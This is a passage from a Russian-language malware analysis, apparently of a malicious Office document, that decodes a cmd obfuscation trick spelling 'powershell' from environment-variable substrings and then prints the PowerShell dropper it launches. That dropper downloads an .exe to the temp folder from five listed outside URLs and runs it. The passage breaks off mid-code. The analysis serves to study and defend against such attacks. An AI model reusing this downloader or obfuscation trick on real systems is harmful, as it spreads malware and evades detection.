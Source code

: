 ![](/assets/images/ru//OfficeMalware/cmd_help_obfuscation.png)

Тем самым, казалось бы запутанная строка, превратилась в понятную вещь. Аналогично происходит и с нашим пейлодом.

Теперь вернемся к нашему основному пейлоду. Первым делом мы видим строку:
* `pow%PUBLIC:~5,1%r%SESSIONNAME:~-4,1%h%TEMP:~-3,1%ll` - как мы уже можем предположить, это тоже обфусцированная строка.
* `%PUBLIC:~5,1%` - это взятие подстроки из 1 символа, начиная с 5-го в строке `C:\Users\Public`. Результат буква "e"
* далее идет просто буква "r"
* `%SESSIONNAME:~-4,1%` - это взятие подстроки из 1 символа, начиная с 4-го, с конца в строке `Console`. Результат буква "s"
* далее идет просто буква "h"
* `%TEMP:~-3,1%` - это взятие подстроки из 1 символа, начиная с 3-го, с конца, в строке `C:\Users\RDRG\AppData\Local\Temp`. Результат буква "e"
* далее идут просто буквы "ll"
Итого: `powershell`

Дальше идет powershell код:
<pre>
$bwrijii='uuzismi';

$jdiwhri=new-object Net.WebClient;

$awbju='http://www.hotelinone.net/IzBYbmU9N3dF8R@http://landmarkbytherivers.com/wp-includes/IXR/eiv8Zdszu1ro8@http://mail.tgeeks.co.tz/pHnj6pZbAhM7_oEO7j@http://www.phyzicia.com/o7UkdcC660mC_fD36O6wM@http://www.hosurbusiness.com/cnKgCjaDLegepf14'.Split('@');

$iivqsmf='wbmjcs';
$ifinwbz = '409';
$hofirzp='vvmwiz';
$zljzjkh=$env:temp+'\'+$ifinwbz+'.exe';
foreach($ikacjq in $awbju){
	try{
		$jdiwhri.DownloadFile($ikacjq, $zljzjkh);
		$jdkiic='kijkrj';
		If ((Get-Item $zljzjkh).length -ge 40000) {
			Invoke-Item $zljzjkh;
			$rzkqd='bfzkhcb';
			break;
		}
	} catch {
